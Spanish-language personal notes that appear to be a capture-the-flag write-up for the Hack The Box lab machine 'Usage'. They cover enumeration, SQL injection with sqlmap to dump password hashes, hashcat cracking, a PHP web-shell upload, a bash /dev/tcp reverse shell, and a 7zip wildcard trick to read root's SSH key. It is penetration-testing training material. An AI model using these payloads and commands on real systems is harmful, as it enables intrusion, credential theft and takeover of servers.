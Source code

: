 :PROPERTIES:
:ID:       a8970387-aaf9-4e58-af95-e40aa5360331
:END:
#+title: Usage

* Enumeración
Empezar con los puertos:
#+begin_src bash
sudo nmap -sC -sV -vv -oA nmap/usage 10.10.11.18
#+end_src
Puertos abiertos: 22 y 80 (ubuntu).

Hay un login, probar si da información el error, interceptar request con Burpsuite.
Se puede probar registrar un usuario, dice que envió un mail.
Probar IDOR: poner /1 o /2 en el nombre de los parámetros, por ejemplo /posts/1.
Enumerar directorios:
#+begin_src bash
gobuster dir -u http://usage.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o root.out
#+end_src

* SQL Injection
Ir a Reset Password y testear SQLI, agregar una ' para ver si rompe. Con '-- -' no debería romper.
Mandar esa request con la cookie a repeater y ver qué hace.
Copiar la request (sin las comillas) a un archivo y usar sqlmap:
#+begin_src bash
sqlmap -r reset.req -p email --level 5 --risk 3 --batch --technique=B
#+end_src
La técnica es boolean injection, podría no agregarse.
Enumerar DBs:
#+begin_src bash
sqlmap -r reset.req -p email --level 5 --risk 3 --batch --technique=B --dbs
#+end_src
Descubrió usage_blog, dumpear:
#+begin_src bash
sqlmap -r reset.req -p email --level 5 --risk 3 --batch --technique=B --dump usage_blog
#+end_src
De la tabla users extraer la información a otro archivo.
También se podría extraer directamente la tabla que tiene los admins
#+begin_src bash
sqlmap -r reset.req -p email --level 5 --risk 3 --batch --technique=B --dump -T admin_users
#+end_src

* Crackear hashes
Para extraer los hashes:
#+begin_src bash
cat archivo | awk '{print $8}' > hashes.out
#+end_src
#+begin_src bash
hashcat -m 3200 hashes.out /opt/wordlist/rockyou.txt
#+end_src
Bcrypt es 3200 usualmente.
Descubrimos la password xander para el usuario raj@raj.com pero no funciona para el panel de admin.
Descubrimos la password whatever1 para el usuario admin y con eso entramos.

* File upload
Buscar vulnerabilidades para laravel-admin 1.8.18. Podemos encontrar el CVE-2023-24249 pero se trata simplemente de un file upload en PHP sencillo.
Interceptar la request que carga la imagen con Burpsuite y cambiar el filename a filename="shell.php" y colocar lo siguiente:
#+begin_src php
<?php system($_REQUEST['cmd'])?>
#+end_src
Ir a: http://admin.usage.htb/uploads/shell.php?cmd=id.
Es preferible hacerlo por POST porque hay menos caracteres prohibidos.
Se puede poner en el body
#+begin_src bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
#+end_src
Usar URL encoding.
Atrapar la reverse shell con:
#+begin_src bash
nc -lvnp 9001
#+end_src
También se puede usar pwncat u otra herramienta similar.
Conseguimos así la shell en el servidor.

* Escalamiento de privilegios
Primero conviene estabilizar la shell:
#+begin_src bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Salir con CTRL Z
stty raw -echo;fg
#+end_src
Buscar MySQL passwords en config/database.php. Son todos defaults aparentemente.
Buscar en .env. Están las credenciales para el usuario staff de la base de datos.
#+begin_src bash
mysql -u staff -p
# Pegar la contraseña
#+end_src
No hay mucho. Existe un .monitrc donde hay un allow admin y una contraseña.
Probamos con otros usuarios como xander:
#+begin_src bash
su - xander
# Pegar la contraseña que extrajimos de la base de datos
#+end_src
Chequeamos los privilegios que tiene este usuario:
#+begin_src bash
sudo -l
#+end_src
Nos muestra que puede usar /usr/bin/usage_management.
Si lo ejecutamos nos da varias opciones pero sólo permite hacer backups.
#+begin_src bash
strings usage_management
#+end_src
No se ve mucho. Salvo porque está usando 7zip con un *.
#+begin_src bash
touch -- @root.txt
touch -- @id_rsa
ln -s /root/root.txt root.txt
ln -s /root/.ssh/id_rsa id_rsa
mv * /var/www/html/
#+end_src
Ahora cuando el 7z corra va a ir a root.txt y lo va a leer.
Ejecutamos el script y nos va a mostrar el archivo root.txt en MD5 y la key de ssh.
